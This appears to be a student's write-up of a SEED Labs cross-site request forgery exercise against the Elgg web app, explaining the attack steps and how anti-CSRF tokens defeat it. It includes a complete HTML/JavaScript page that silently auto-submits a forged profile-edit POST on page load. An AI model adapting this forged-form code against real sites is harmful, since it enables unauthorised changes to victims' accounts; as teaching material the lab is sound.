

# SEED Lab: Cross-Site Request Forgery (CSRF) Attack

## Overview
This lab demonstrates a Cross-Site Request Forgery (CSRF) attack against a vulnerable web application (Elgg). The goal is to forge a malicious HTML page that tricks a victim's browser into submitting a POST request to change their profile information without their knowledge.

## Step 1: Crafting the Malicious Page (`editprofile.html`)
We create an HTML page containing a hidden form and a JavaScript function (`forge_post()`) that automatically submits it when the page loads. 

The payload alters Alice's profile description to **"Samy is my Hero!!!"**.

```html
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">
function forge_post()
{
    var fields;
    // Hidden form fields
    fields += "<input type='hidden' name='name' value='Alice'>";
    fields += "<input type='hidden' name='description' value='<p>Samy is my Hero!!!</p>'>";
    fields += "<input type='hidden' name='briefdescription' value='Samy is my Hero!!!'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
    fields += "<input type='hidden' name='accesslevel[description]' value='2'>";
    fields += "<input type='hidden' name='guid' value='56'>";

    var p = document.createElement("form");
    p.action = "http://www.seed-server.com/action/profile/edit";
    p.innerHTML = fields;
    p.method = "post";

    document.body.appendChild(p);
    p.submit();
}

// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post(); }
</script>
</body>
</html>
```




## Step 2: Executing the Attack
When the victim visits the attacker's page (www.attacker32.com/editprofile.html), the browser executes the script and sends the forged POST request to the vulnerable server.

Using the HTTP Header Live extension, we can see the forged POST request being sent to www.seed-server.com/action/profile/edit. Notice the payload contains the description=<p>Samy is my Hero!!!</p> data.


## Step 3: Verifying the Result
After the victim visits the malicious page, we refresh Alice's profile. The attack was successful, and her profile description has been changed to "Samy is my Hero!!!".


## Step 4: Defense Analysis (CSRF Token)
Modern web applications defend against this by using Anti-CSRF tokens.

As seen in the last screenshot, when submitting a legitimate form (e.g., trying to manually change the profile to "tada"), the browser includes a hidden _elgg_token field. Because the attacker's forged page does not know the victim's unique, secret token, the server will reject the forged request.


## Disclaimer
This project was completed for educational purposes as part of the SEED Labs curriculum. The techniques shown here are intended for use in controlled, local, and authorized environments only. It is ILLEGAL to do this in real life!!!! Don't do it!

text


